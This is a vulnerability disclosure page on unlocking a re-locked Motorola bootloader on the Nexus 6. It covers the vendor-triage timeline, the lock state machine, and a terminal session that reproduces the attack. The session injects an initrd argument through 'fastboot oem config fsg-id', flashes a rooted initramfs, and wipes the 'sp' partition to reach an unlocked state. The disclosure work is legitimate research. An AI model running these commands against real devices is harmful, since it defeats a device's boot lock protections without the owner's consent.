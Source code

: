 ```yaml
---
layout: vuln
timeline:
    - type: 'add'
      date: '2017-06-05'
    - type: 'report'
      date: '2017-06-05'
      arg: 'Android Security'
    - type: 'deadline'
      date: '2017-06-12'
    - type: 'deadline-extension'
      date: '2017-08-14'
    - type: 'vendor-initial-triage'
      date: '2017-06-13'
      arg: 'Moderate'
    - type: 'vendor-msg'
      date: '2017-06-29'
      msg: '...we confirm that in this scenario an attacker could unlock the bootloader. However, the prerequisite of execution as root and in an SELinux domain that allows for block device writes would also be sufficient to overwrite the bootloader chain, boot, and system image partition on a Nexus 6. Therefore, there is no elevation of privilege beyond that which the attacker could already accomplish. Please let us know if you feel otherwise...'
    - type: 'researcher-msg'
      date: '2017-07-02'
      msg: "...I agree with your observation that being able to write on the `sp` partition, like we achieve with @CVE-2016-10277, means running in an SELinux domain that allows for block device writes, thus being able to flash the listed partitions. However, due to secure boot, the attacker cannot make the system successfully boot with a tampered bootloader chain (SBL, ABOOT). Trying to do so ends in the EDL. Although it's possible for Nexus 6 to load with a tampered boot and recovery images, they are expected to run a TZ state less capable than of ABOOT => code running in ABOOT can be more capable than code running in the platform OS => having ABOOT unlocked (which may increase its capabilities, allow more commands, etc) may elevate the privileges of the adversary, comparing with what he can achieve by having full control over boot/recovery/system..."
    - type: 'vendor-triage'
      date: '2017-07-11'
      msg: '...We do not believe that there is an elevation of privilege that would meet the severity bar for inclusion in an Android security bulletin...'
    - type: 'release'
      date: '2017-08-15'
      arg: "USENIX WOOT '17"
    - type: 'release'
      date: '2017-08-30'
      arg: "alephsecurity.com"

product:
    - Google Nexus 6
alephid: ALEPH-2017024
androidid: 62345923
date: '2017-08-30'
reportedto: 'Android Security'
title: 'Motorola Android Bootloader Unlocking a Re-locked Bootloader from Platform OS'
references:
    - src: 'Unlocking the Motorola Bootloader'
      url:  http://blog.azimuthsecurity.com/2013/04/unlocking-motorola-bootloader.html
    - src: "fastboot oem vuln: Android Bootloader Vulnerabilities in Vendor Customizations (USENIX WOOT '17)"
      url:  https://www.usenix.org/conference/woot17/workshop-program/presentation/hay
---
```


Back in 2013, Dan Rosenberg found a vulnerability in the Motorola TrustZone kernel, allowing him to unlock the Motorola bootloader. [In his blog](http://blog.azimuthsecurity.com/2013/04/unlocking-motorola-bootloader.html), Dan depicted how Motorola implemented bootloader locking (also relevant for `shamu`), which can be summarized as the following state machine:
 ```
 .---------.
 | Factory |       .----------.
 | Locked  | --->  | Unlocked |  <---.  (3)
 `---------' (1)   `-----.----'      |      
                         |      .-----------.
                         `----> | Re-locked |
                           (2)  `-----------'
 ```
 The transitions are as follows:
 
1. The user first unlocks the device. The `WARRANTYVOID` qfuse is blown. This transition is governed by TEE thus it cannot be done from the Platform OS. 
2. User re-locks the device. Bootloader writes an entry under the `sp` partition, with an HMAC produced by TEE.
3. User unlocks the device. Bootloader removes that entry.
 
 *Conclusion:* An unrestricted root (as one could gain by exploiting @CVE-2016-10277) can unlock a re-locked bootloader by invalidating the `sp` partition.
 
 ```terminal
 $ fastboot getvar all
 ...
 (bootloader) secure: yes
 (bootloader) unlocked: no
 (bootloader) securestate: locked
 (bootloader) iswarrantyvoid: yes
 (bootloader) mot_sst: 2
 
 $ fastboot oem config fsg-id "a initrd=0x11000000,1519997"
 $ fastboot flash foo initroot.cpio.gz
 $ fastboot continue
 
 $ adb shell
 shamu:/ # echo 0 > /dev/block/platform/msm_sdcc.1/by-name/sp
 shamu:/ # reboot bootloader
 
 $ fastboot getvar all
 ...
 (bootloader) unlocked: yes
 (bootloader) securestate: unlocked
 (bootloader) iswarrantyvoid: yes
 (bootloader) mot_sst: 3
 ```
